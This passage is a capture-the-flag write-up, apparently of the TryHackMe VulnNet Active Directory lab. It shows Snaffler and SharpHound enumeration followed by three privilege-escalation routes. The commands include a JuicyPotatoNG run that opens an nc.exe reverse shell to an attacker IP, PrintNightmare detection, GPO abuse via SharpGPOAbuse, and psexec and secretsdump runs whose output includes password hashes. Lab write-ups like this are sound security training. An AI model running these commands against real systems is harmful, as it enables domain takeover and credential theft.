[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Green}<KeepNameContainsGreen|R|passw|11kB|2021-02-02 08:27:19Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Randomize-LocalAdminPassword.ps1) Randomize-LocalAdminPassword.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:22Z [File] {Red}<KeepCmdCredentials|R|net user |11kB|2021-02-02 08:27:19Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Randomize-LocalAdminPassword.ps1) e\ \(Join-Path\ \$modulePath\ -ChildPath\ "Scripts\\Confirm-Password\.ps1"\)\r\n\r\n\$localAdminName\ =\ \$args\[0]\r\n\r\n\.\ "\$setPasswordScriptPath"\r\n\.\ "\$confirmPasswordScriptPath"\r\n\r\n\$newPassword\ =\ New-RandomPassword\r\n\r\nnet\ user\ \$localAdminName\ \$newPassword\ /ACTIVE:YES\ /LOGONPASSWORDCHG:NO\ /EXPIRES:NEVER\ /PASSWORDREQ:NO\r\n\r\n\r\n\#\ SIG\ \#\ Begin\ signature\ block\r\n\#\ MIIcvAYJKoZIhvcNAQcCoIIcrTCCHKkCAQExDzANBglghkgBZQMEAgEFADB5
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Green}<KeepNameContainsGreen|R|passw|11.9kB|2021-02-02 08:27:10Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Confirm-Password.ps1) Confirm-Password.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|22.4kB|2021-02-02 08:27:11Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Install-EgpuManager.ps1) \ \ \ \ \$signatureValid\ =\ Test-CertificateIsAws\ \$file\n\ \ \ \ \n\ \ \ \ \ \ \ \ if\ \(\$signatureValid\)\n\ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ Start-Process\ -FilePath\ "msiexec\.exe"\ -ArgumentList\ "/i\ `"\$file`"\ /qn\ /log\ `"\$logfile`""\ -Wait\ -Passthru\ \|\ out-null\n\ \ \ \ \ \ \ \ }\n\ \ \ \ \ \ \ \ else\n\ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ Write-Log\ "Signature\ is\ not\ valid"\n\ \ \ \ \ \ \ \ }\n\ \ \ \ \n\ \ \ \ \ \ \ \ \$installedVer\ =\ Get-EgpuSoftwareVersion\ "EC2ElasticGPUs_Manager"\n\ \ \ \ \n\ \ \ \ \
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|20.7kB|2021-02-02 08:27:11Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Invoke-Userdata.ps1) \$filePath`"\ -Wait\ -NoNewWindow\ -RedirectStandardOutput\ \$outputFile\ -RedirectStandardError\ \$errorFile\n\ \ \ \ \ \ \ \ \ \ \ \ }\n\ \ \ \ \ \ \ \ \ \ \ \ else\ \n\ \ \ \ \ \ \ \ \ \ \ \ \{\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ Invoke-CmdAsAdmin\ -Username\ \$Username\ -Password\ \$Password\ -Command\ "\$script:cmdPath\ /C\ `"`"\$filePath`"\ 1>\ `"\$outputFile`"\ 2>\ `"\$errorFile`"`""\n\ \ \ \ \ \ \ \ \ \ \ \ }\n\t\t\t\t\n\ \ \ \ \ \ \ \ \ \ \ \ \$output\ =\ Get-Content\ \$errorFile\ -Raw\n\ \ \ \ \ \ \ \ \ \ \ \ if\ \(\$output\)\n
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Green}<KeepNameContainsGreen|R|passw|12.4kB|2021-02-02 08:27:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\New-RandomPassword.ps1) New-RandomPassword.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|12.4kB|2021-02-02 08:27:12Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\New-RandomPassword.ps1) \r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \)\r\n\r\n\ \ \ \ \ \ \ \ \#\ Passwords\ must\ contain\ characters\ from\ three\ of\ the\ four\ categories\ and\ longer\ than\ 32\r\n\ \ \ \ }\ while\ \(-not\ \(Confirm-Password\ -Password\ \$password\)\ -or\ \$password\.Length\ -lt\ 32\)\ \r\n\ \ \ \ \r\n\ \ \ \ return\ \$password\.Substring\(0,\ 32\)\r\n}\r\n\r\n\#\ SIG\ \#\ Begin\ signature\ block\r\n\#\ MIIcvAYJKoZIhvcNAQcCoIIcrTCCHKkCAQExDzANBglghkgBZQMEAgEFADB5Bgor
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Green}<KeepNameContainsGreen|R|credential|13.2kB|2021-02-02 08:27:13Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Send-AdminCredentials.ps1) Send-AdminCredentials.ps1
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepPassOrKeyInCode|R|passw?o?r?d?>\s*[^\s<]+\s*<|13.2kB|2021-02-02 08:27:13Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Send-AdminCredentials.ps1) \ important\ step\ to\ inform\ console\ about\ the\ password\ reset\.\ \r\n\ \ \ \ \ \ \ \ \#\ The\ format\ MUST\ NOT\ be\ changed!\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Username:\ \{0}"\ -f\ \$Username\)\ -LogToConsole\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Password:\ <Password>\{0}\{1}\{2}</Password>"\ -f\ \[System\.Environment]::NewLine,\ \$encryptedPassword,\ \[System\.Environment]::NewLine\)\ -LogToConsole\ \ \ \ \r\n\ \ \ \ }\r\n\ \ \ \ catch\r\n\ \ \ \ \{\r\n\ \ \ \ \ \ \ \ Write-Log\ \("Unable\ to\ send\ the\ p
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepCmdCredentials|R|net user |13.4kB|2021-02-02 08:27:15Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Set-AdminAccount.ps1) sName\ Win32_UserAccount\ -Filter\ "LocalAccount\ =\ 'True'"\ \|\ Where-Object\ \{\$_\.SID\ -like\ 'S-1-5-21-\*'\ -and\ \$_\.SID\ -like\ '\*-500'}\r\n\r\n\ \ \ \ \ \ \ \ \#\ Set\ the\ admin\ password\ and\ enable\ the\ admin\ account\.\r\n\ \ \ \ \ \ \ \ net\ user\ \$user\.Name\ \$password\ /ACTIVE:YES\ /LOGONPASSWORDCHG:NO\ /EXPIRES:NEVER\ /PASSWORDREQ:YES\r\n\r\n\ \ \ \ \ \ \ \ \#\ Set\ credentials\ for\ return\ value\r\n\ \ \ \ \ \ \ \ \$creds\.Username\ =\ \$user\.Name\r\n\ \ \ \ \ \ \ \ \$creds\.Passw
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:28:23Z [File] {Red}<KeepPassOrKeyInCode|R|[\s]+-passw?o?r?d?|13.4kB|2021-02-02 08:27:15Z>(\\VULNNET-BC3TCK1SHNQ.vulnnet.local\C$\Users\All Users\Amazon\EC2-Windows\Launch\Module\Scripts\Set-AdminAccount.ps1) inPassword\ -Delete\r\n\r\n\ \ \ \ \ \ \ \ \ \ \ \ \#\ If\ specifed\ password\ is\ invalid\ or\ doesn't\ meet\ the\ windows\ password\ policy\ requirement,\ set\ it\ to\ empty\.\r\n\ \ \ \ \ \ \ \ \ \ \ \ if\ \(-not\ \$password\ -or\ -not\ \(Confirm-Password\ -Password\ \$password\)\)\r\n\ \ \ \ \ \ \ \ \ \ \ \ \{\r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ Write-Log\ "The\ password\ specified\ in\ config\ is\ empty\ or\ doesn't\ meet\ the\ windows\ requirement"\ \ \r\n\ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \ \$password\ =\ ""\r\n\ \ \ \ \ \ \ \ \ \ \ \ }\r\n\
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:32:47Z [Info] Status Update:
ShareFinder Tasks Completed: 0
ShareFinder Tasks Remaining: 1
ShareFinder Tasks Running: 1
TreeWalker Tasks Completed: 6202
TreeWalker Tasks Remaining: 20
TreeWalker Tasks Running: 20
FileScanner Tasks Completed: 11234
FileScanner Tasks Remaining: 20
FileScanner Tasks Running: 20
85MB RAM in use.

ShareScanner queue finished, rebalancing workload.
Insufficient FileScanner queue size, rebalancing workload.
Max ShareFinder Threads: 0
Max TreeWalker Threads: 21
Max FileScanner Threads: 39
Been Snafflin' for 00:05:01.0174285 and we ain't done yet...

[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:32:47Z [Info] Status Update:
ShareFinder Tasks Completed: 1
ShareFinder Tasks Remaining: 0
ShareFinder Tasks Running: 0
TreeWalker Tasks Completed: 6222
TreeWalker Tasks Remaining: 0
TreeWalker Tasks Running: 0
FileScanner Tasks Completed: 11254
FileScanner Tasks Remaining: 0
FileScanner Tasks Running: 0
85MB RAM in use.

Insufficient FileScanner queue size, rebalancing workload.
Max ShareFinder Threads: 0
Max TreeWalker Threads: 22
Max FileScanner Threads: 38
Been Snafflin' for 00:05:01.0174285 and we ain't done yet...

[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:32:47Z [Info] Finished at 11/7/2026 2:32:47 AM
[VULNNET\enterprise-security@VULNNET-BC3TCK1SHNQ] 2026-11-07 10:32:47Z [Info] Snafflin' took 00:05:01.0174285
Snaffler out.
I snaffled 'til the snafflin was done.
```

## SharpHound :

- We run SharpHound on the system and download the zip file using metasploit `download` cmd

```
C:\Users\enterprise-security\Downloads>SharpHound.exe -c all
SharpHound.exe -c all
2026-11-07T03:47:09.9222331-08:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2026-11-07T03:47:09.9378778-08:00|INFORMATION|SharpHound Version: 2.17.1.0
2026-11-07T03:47:09.9378778-08:00|INFORMATION|SharpHound Common Version: 4.9.0.0
2026-11-07T03:47:10.0793030-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry, Site, AzureRegistry
2026-11-07T03:47:10.1098811-08:00|INFORMATION|Initializing SharpHound at 3:47 AM on 11/7/2026
2026-11-07T03:47:10.3443132-08:00|INFORMATION|Resolved current domain to vulnnet.local
2026-11-07T03:47:10.5944200-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, UserRights, CARegistry, DCRegistry, CertServices, LdapServices, WebClientService, SmbInfo, NTLMRegistry, Site, AzureRegistry
2026-11-07T03:47:10.7036769-08:00|INFORMATION|Beginning LDAP search for vulnnet.local
2026-11-07T03:47:10.7036769-08:00|INFORMATION|Collecting AdminSDHolder data for vulnnet.local
2026-11-07T03:47:10.7704224-08:00|INFORMATION|AdminSDHolder ACL hash 8E8A1E81C7F046E09E8236E98D58B0E3ED5C14E0 calculated for vulnnet.local.
2026-11-07T03:47:10.8952971-08:00|INFORMATION|[CommonLib ACLProc]Building GUID Cache for VULNNET.LOCAL
2026-11-07T03:47:12.0359205-08:00|INFORMATION|Beginning LDAP search for vulnnet.local Configuration NC
2026-11-07T03:47:12.5360022-08:00|INFORMATION|Producer has finished, closing LDAP channel
2026-11-07T03:47:12.5515980-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2026-11-07T03:47:13.0046373-08:00|INFORMATION|Consumers finished, closing output channel
2026-11-07T03:47:13.0202526-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2026-11-07T03:47:13.1632857-08:00|INFORMATION|Status: 300 objects finished (+300 150)/s -- Using 43 MB RAM
2026-11-07T03:47:13.1632857-08:00|INFORMATION|Enumeration finished in 00:00:02.4775570
2026-11-07T03:47:13.2413967-08:00|INFORMATION|Saving cache with stats: 15 ID to type mappings.
 1 name to SID mappings.
 1 machine sid mappings.
 4 sid to domain mappings.
 0 global catalog mappings.
2026-11-07T03:47:13.2725364-08:00|INFORMATION|SharpHound Enumeration Completed at 3:47 AM on 11/7/2026! Happy Graphing!

C:\Users\enterprise-security\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AAC5-C2C2

 Directory of C:\Users\enterprise-security\Downloads

11/07/2026  03:47 AM    <DIR>          .
11/07/2026  03:47 AM    <DIR>          ..
11/07/2026  03:47 AM            32,730 20261107034711_BloodHound.zip
02/23/2021  02:29 PM    <DIR>          nssm-2.24-101-g897c7ad
02/26/2021  12:14 PM    <DIR>          Redis-x64-2.8.2402
11/07/2026  03:46 AM            80,896 SharpGPOAbuse.exe
11/07/2026  03:47 AM         1,369,088 SharpHound.exe
02/26/2021  10:37 AM               143 startup.bat
11/07/2026  03:47 AM             1,382 Y2Q3NzU4MTgtZWE0Ny00ZGJjLTg4MDAtM2NjYjJmZTZjN2U2.bin
               5 File(s)      1,484,239 bytes
               4 Dir(s)  19,170,500,608 bytes free

C:\Users\enterprise-security\Downloads>exit
exit
meterpreter > download 20261107034711_BloodHound.zip
[*] Downloading: 20261107034711_BloodHound.zip -> /home/akhilbangaru/Downloads/20261107034711_BloodHound.zip
[*] Downloaded 31.96 KiB of 31.96 KiB (100.0%): 20261107034711_BloodHound.zip -> /home/akhilbangaru/Downloads/20261107034711_BloodHound.zip
[*] Completed  : 20261107034711_BloodHound.zip -> /home/akhilbangaru/Downloads/20261107034711_BloodHound.zip
meterpreter >
```

- We injest the data in bloodhound
- We see the domain users and we add `Enterprise-Security` used to `pwned`


- We also find `Generic Write` perms on a `GPO`


- We also check for any kerberoastable accounts using the cipher

```markdown
MATCH (n:User) WHERE n.hasspn = true AND n.name
ENDS WITH '@VULNNET. LOCAL' RETURN n
```


- no kerberoastable account

# Shell as nt authority\system :

- There are three ways you could get `nt authority\system` shell

## 1.JuicyPotatoNG

```
C:\Users\enterprise-security\Downloads>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                   SID
=========================== ============================================
vulnnet\enterprise-security S-1-5-21-1405206085-1650434706-76331420-1103

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

- We see that we have `SeImpersonatePrivilege` we could try exploiting it by `JuicyPotatoNG`

```
C:\Users\enterprise-security\Downloads>JuicyPotatoNG.exe -p "C:\Windows\System32\cmd.exe" -a "/c C:\Users\enterprise-security\Downloads\nc.exe 192.168.138.204 4444 -e cmd.exe" -t *
JuicyPotatoNG.exe -p "C:\Windows\System32\cmd.exe" -a "/c C:\Users\enterprise-security\Downloads\nc.exe 192.168.138.204 4444 -e cmd.exe" -t *
```

- We get shell as nt authority\system

```
└─# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.138.204] from (UNKNOWN) [10.48.137.46] 50166
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

## 2.Printnightmare :

- Using wesng tool we indentified plenty of critical vulnerabilities
- First we need the output of the systeminfo

```
C:\Users\enterprise-security\Downloads>systeminfo
systeminfo

Host Name:                 VULNNET-BC3TCK1
OS Name:                   Microsoft Windows Server 2019 Datacenter Evaluation
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00431-20000-00000-AA463
Original Install Date:     2/22/2021, 11:43:53 AM
System Boot Time:          11/7/2026, 3:05:34 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 784 MB
Virtual Memory: Max Size:  3,200 MB
Virtual Memory: Available: 1,891 MB
Virtual Memory: In Use:    1,309 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    vulnnet.local
Logon Server:              N/A
Hotfix(s):                 7 Hotfix(s) Installed.
                           [01]: KB4601558
                           [02]: KB4512577
                           [03]: KB4535680
                           [04]: KB4577586
                           [05]: KB4580325
                           [06]: KB4601393
                           [07]: KB4601345
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.48.128.1
                                 IP address(es)
                                 [01]: 10.48.137.46
                                 [02]: fe80::fc93:aa43:5952:e434
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

- we create systeminfo.txt with contents of systeminfo and run `wes`

```
└─# python3 wes.py systeminfo.txt -s critical
```

- which gave

```
[-] Missing patches: 16
    - KB: patches 315 vulnerabilities
    - KB5122876: patches 58 vulnerabilities
    - KB5099538: patches 27 vulnerabilities
    - KB5120238: patches 18 vulnerabilities
    - KB4507419: patches 16 vulnerabilities
    - KB4512578: patches 12 vulnerabilities
    - KB4535101: patches 8 vulnerabilities
    - KB5073723: patches 4 vulnerabilities
    - KB4556441: patches 4 vulnerabilities
    - KB5070883: patches 4 vulnerabilities
    - KB5027536: patches 4 vulnerabilities
    - KB4570505: patches 4 vulnerabilities
    - KB4578966: patches 4 vulnerabilities
    - KB4477029: patches 1 vulnerability
    - KBUpdate Information: patches 1 vulnerability
    - KB4516115: patches 1 vulnerability
[I] KB with the most recent release date
    - ID: KB5120238
    - Release date: 20260917
[+] Done. Displaying 481 of the 6150 vulnerabilities found.
```

- 481 critical vulnerabilities
- which contains famous `print nightmare`

```
Date: 20230613
CVE: CVE-2021-34527
KB: KB
Title: Windows Print Spooler Remote Code Execution Vulnerability
Affected product: Windows Server 2019
Affected component: Windows Print Spooler Components
Severity: Critical
Impact: Remote Code Execution
Exploits: http://packetstormsecurity.com/files/167261/Print-Spooler-Remote-DLL-Injection.html, https://www.vicarius.io/vsociety/posts/cve-2021-34527-printnightmare-detection-script, https://www.vicarius.io/vsociety/posts/cve-2021-34527-printnightmare-mitigation-script
```

- We could aslo use a python script from

[https://github.com/cybersecurityworks553/CVE-2021-1675_PrintNightMare/blob/main/detectprintnightmare.py](https://github.com/cybersecurityworks553/CVE-2021-1675_PrintNightMare/blob/main/detectprintnightmare.py)

- we test the dc

```
└─# python3 detectprintnightmare.py -t 10.48.137.46
10.48.137.46 is Vulnerable to CVE-2021-1675
```

- We could also confirm by using the tool `impacket-rpcdump`

```
└─# impacket-rpcdump @10.48.137.46 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-RPRN]: Print System Remote Protocol
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

## 3.The Intended Way

- We could abuse the `Generic Write` perms on the gpo `SECURITY-POL-VN`


- We try the linux way to abuse this given in bloodhound itself
- First we need to add domain to /etc/hosts

```
└─# nxc smb 10.48.165.162 --generate-hosts-file hosts.txt
SMB         10.48.165.162   445    VULNNET-BC3TCK1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:None) (Null Auth:True)

└─# cat hosts.txt
10.48.165.162     VULNNET-BC3TCK1.vulnnet.local vulnnet.local VULNNET-BC3TCK1

└─# echo '10.48.165.162     VULNNET-BC3TCK1.vulnnet.local vulnnet.local VULNNET-BC3TCK1' >> /etc/hosts
```

- We modify the file `Scheduled_task_add.ini`

```
└─# cat Scheduled_task_add.ini
[MODULECONFIG]
name = Scheduled Tasks
type = computer

[MODULEOPTIONS]
task_type = immediate
program = cmd.exe
arguments = /c "net localgroup Administrators vulnnet.local\enterprise-security /add"

[MODULEFILTERS]
filters = [{ "operator": "AND", "type": "Computer Name", "value": "VULNNET-BC3TCK1SHNQ.vulnnet.local"}]
```

- Then we run `gpb.py`

```
└─# uv run python gpb.py gpo inject -d "vulnnet.local" --dc "VULNNET-BC3TCK1.vulnnet.local" -u "Enterprise-Security" -p "sand_0873959498" -m Scheduled_task_add.ini -n "SECUTIY-POL-VN"
GPB - INJECT command - 2026-11-07 17:27:57.738584

[#] Command execution setup
[+] All modules validated
[!] Error encountered while running inject command
Traceback (most recent call last):
  File "/opt/GroupPolicyBackdoor/gpb/main.py", line 182, in inject
    ldap_session = get_ldap_session(domain, dc, ldaps, username, password, kerberos)
  File "/opt/GroupPolicyBackdoor/gpb/protocols/ldap.py", line 16, in get_ldap_session
    ldap_session = Connection(server, user=f"{domain}\\{username}", password=password, authentication=NTLM, auto_bind=True, raise_exceptions=True, session_security=ENCRYPT)
  File "/opt/GroupPolicyBackdoor/.venv/lib/python3.14/site-packages/ldap3/core/connection.py", line 390, in __init__
    self._do_auto_bind()
    ~~~~~~~~~~~~~~~~~~^^
  File "/opt/GroupPolicyBackdoor/.venv/lib/python3.14/site-packages/ldap3/core/connection.py", line 414, in _do_auto_bind
    self.open(read_server_info=False)
    ~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^
  File "/opt/GroupPolicyBackdoor/.venv/lib/python3.14/site-packages/ldap3/strategy/sync.py", line 58, in open
    BaseStrategy.open(self, reset_usage, read_server_info)
    ~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/opt/GroupPolicyBackdoor/.venv/lib/python3.14/site-packages/ldap3/strategy/base.py", line 155, in open
    raise LDAPSocketOpenError('invalid server address')
ldap3.core.exceptions.LDAPSocketOpenError: invalid server address
```

- We get a Ldap Error since Ldap isn’t open on the dc we need to abuse this on windows
- We upload `SharpGPOAbuse.exe` to the system using meterpreter

```
meterpreter > upload SharpGPOAbuse.exe
[*] Uploading  : /home/akhilbangaru/Downloads/SharpGPOAbuse.exe -> SharpGPOAbuse.exe
[*] Uploaded 79.00 KiB of 79.00 KiB (100.0%): /home/akhilbangaru/Downloads/SharpGPOAbuse.exe -> SharpGPOAbuse.exe
[*] Completed  : /home/akhilbangaru/Downloads/SharpGPOAbuse.exe -> SharpGPOAbuse.exe
```

- We see this hacktricks article on how to escalate

[Abusing Active Directory ACLs/ACEs - HackTricks](https://hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html?highlight=sharpgpo#sharpgpoabuse---abuse-gpo)


- We exploit!

```
PS C:\Users\enterprise-security\Downloads> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "pwned" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators ""vulnnet.local\Enterprise-Security"" /add" --GPOName "SECURITY-POL-VN"
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "pwned" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators ""vulnnet.local\Enterprise-Security"" /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
PS C:\Users\enterprise-security\Downloads> gpupdate /force
gpupdate /force
Updating policy...

Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

- We confirm by checking localadmins group

```
PS C:\Users\enterprise-security\Downloads> net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
enterprise-security
The command completed successfully.
```

- We get our `system` flag

```
└─# impacket-psexec Enterprise-Security:'sand_0873959498'@10.48.165.162
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.48.165.162.....
[*] Found writable share ADMIN$
[*] Uploading file vfwOUHCg.exe
[*] Opening SVCManager on 10.48.165.162.....
[*] Creating service nnDK on 10.48.165.162.....
[*] Starting service nnDK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> type system.txt
THM{<Redacted>}
```

# SecretsDump For Fun!

```
└─$ impacket-secretsdump vulnnet.local/enterprise-security:'sand_0873959498'@10.48.165.162
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x4db7262d4c7b0e91facc9bf2a57b4591
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85d1fadbe37887ed63987f822acb47f1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
VULNNET\VULNNET-BC3TCK1$:aes256-cts-hmac-sha1-96:9b9f095ee5c8226ae5662892bcae8fc44cf8d1b261d50d6d6ab69605d74a1ae0
VULNNET\VULNNET-BC3TCK1$:aes128-cts-hmac-sha1-96:84d892736cac9f5dc1814183af5b9386
VULNNET\VULNNET-BC3TCK1$:des-cbc-md5:f7b57ab52a37cee3
VULNNET\VULNNET-BC3TCK1$:plain_password_hex:5f2148d7a4213a3d9da52069cd0fdae71e826aa5205183e40b6731b0ea2a48598d452b830dbb776cc01f5d0eb27bdafe24907e06fd9a6bb1b40a63bcfa35b1451590abcf388bbdc4bdf7ce9310992071e08cd1992f1a30786fecd1e1cbc8d6dad1037c8b20d582f55f61d8cc0e54055de6991e6a912cfd9a692c10f44f6febd2655f994c814f86c880c3e82f21dec01ceee73c4ed02f15f601ec434a9a2526d37c0cedf765ac9df9399650a997520342e564aef15673c119c4c0c94d854bf4ffccb0cdf58700b926557829eddd2928215a9ae4695e18f5c191cda7d8e2880e0ed4b889525155018fbecca73e7b3a6901
